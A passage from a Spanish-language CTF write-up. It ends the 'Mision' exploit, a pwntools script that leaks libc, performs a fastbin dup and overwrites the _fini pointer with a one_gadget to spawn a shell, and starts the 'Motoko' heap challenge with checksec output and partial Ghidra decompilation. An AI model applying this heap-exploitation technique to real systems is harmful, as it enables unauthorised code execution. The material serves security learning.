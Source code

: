 ```python
    p.sendlineafter("Identificador", str(ind))

p.recvuntil("id : ")
leak = int(p.recvline(), 16)
libc.address = leak - 0x6faf0
log.info(hex(leak))
log.info(hex(libc.address))

alloc()
alloc()
free(0)
free(1)
free(0) # Fastbin dup

alloc(0x30, p64(0x802012)) # Address en .dynamic
alloc() 
alloc()
alloc(0x30, "ASDFAS" + p64(libc.address + 0xc4dbf)) # Sobreescribimos el pointer a _fini con un pointer a nuestro one_gadget

p.sendlineafter("> ", "3") # Llamamos a la funcion exit

p.interactive() # Tenemos una shell!
```  

Mision fue un desafio muy divertido para calentar para los heaps de despues :D


# Motoko

Motoko es un reto de heap con libc 2.23. Nos entregan como material el [binario](/content/q42020/motoko/motoko), el [ld](/content/q42020/motoko/ld.so) y la [libc](/content/q42020/motoko/libc.so.6). El binario tiene todas las protecciones habilitadas:

```
$ checksec motoko
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No explicare mucho de las basicas de explotacion de heap en este writeup. Si no te sientes comodo aun con muchos de los conceptos que uso en el writeup, o si quieres aprender mas de explotacion de heap, te recomiendo [este](https://github.com/shellphish/how2heap/) repo.

No hace falta traducir el texto del binario, ya que simplemente podemos reversearlo para enterarnos de lo que hace. Casi todo pasa en la funcion main. Aqui dejo la decompilacion de Ghidra:

```c
void main(void)

{
  undefined8 uVar1;
  void *pvVar2;
  ulong uVar3;
  long in_FS_OFFSET;
  uint local_bc;
  long local_b8;
  void **local_b0;
  void *local_98 [17];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);,
```